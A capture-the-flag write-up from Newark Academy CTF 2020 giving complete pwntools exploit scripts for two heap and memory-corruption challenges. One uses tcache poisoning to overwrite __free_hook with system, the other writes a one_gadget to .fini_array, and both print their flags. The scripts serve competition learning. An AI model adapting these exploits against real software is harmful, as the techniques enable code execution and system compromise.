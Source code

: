 # Newark Academy CTF 2020 Internal

b1c takes third global and first in highschools (We stole Gabe for one algo challenge *again*).

We also maintained the b1c tradition of dropping from 1st to 3rd due to a single challenge (*ahem* veggie factory 5 *ahem*) :upside_down_face:


## Grade calculator

Coming soon after admins finish verifications :D


## Covid tracker tracker tracker

No PIE, so we can poison tcache and point it to `setvbuf@got` to read a libc pointer. Then, we can poison tcache again to write `system` to `__libc_free_hook`.

We have to do some fiddling with the amount of trackers we create to ensure we can recover from the initial tcache poison. The tcache will look something like `HEAD -> <actual chunks> -> setvbuf@got -> setvbuf@libc -> <bad memory>`. Any further allocations past setvbuf@libc would cause a segfault.

We can fix this by creating an excess of freeable chunks before poisoning, and freeing them to the head of the desired tcache bin after our first poison, creating a sort of "buffer" of newly poisonable chunks.

Then, just tcache poison to overwrite `__libc_free_hook` with `system` and free a chunk with `/bin/sh`.


```python
from pwn import *

e = ELF("./cttt")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
p = remote("challenges.ctfd.io", 30252)

context.log_level="debug"
gdb.attach(p, """c""")

def add():
    p.sendlineafter(">", "1")


def edit(idx, n):
    p.sendlineafter(">", "2")
    p.sendlineafter("?", str(idx))
    p.sendlineafter("?", n)


def remove(idx):
    p.sendlineafter(">", "3")
    p.sendlineafter("?", str(idx))


def show():
    p.sendlineafter(">", "4")



add()   #1
add()   #2
add()   #3
add()   #4
add()   #5
add()   #6
add()   #7
add()   #8
add()   #9
add()   #10
edit(10, "/bin/sh")



remove(6)
remove(5)
remove(4)
remove(3)
remove(2)
remove(1)


edit(1, p64(e.got["setvbuf"]))



add()   #11
add()   #12

show()

p.recvuntil("12) ")

libc.address = u64(p.recv(6).ljust(8, "\x00")) - 529136


print("libc base", hex(libc.address))


remove(7)

edit(7, p64(libc.sym["__free_hook"]))

add()   #13
add()   #14

edit(14, p64(libc.sym["system"]))

remove(10)



p.interactive()
```

Flag: `nactf{d0nt_us3_4ft3r_fr33_zsouEFF4bfCI5eew}`


## Tale of two
We get one relative read and one relative write. We can read a libc pointer at offset -4 and we can write a one_gadget to .fini_array at offset -75.

```python
from pwn import *

e = ELF("./tale-of-two")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process(e.path)
p = remote("challenges.ctfd.io", 30250)


context.log_level="debug"
gdb.attach(p, """b * main+190
           b * main+233
           c""")


#read

p.sendlineafter("?", "-4")

p.recvline()

libc.address = int(p.recvline().strip(), 16) - 507584

print("libc base", hex(libc.address))




#write a one gadget to .fini_array, which is at offset -600/8 == -75

og = libc.address + 0x4f322

print("one gadget", hex(og))

p.sendlineafter("?", "-75")

p.sendlineafter("?", str(og))


p.interactive()
```

Flag: `nactf{a_l0n3ly_dt0r_4nd_a_sh3ll_tUIlF0jxW5aMXoGo}`
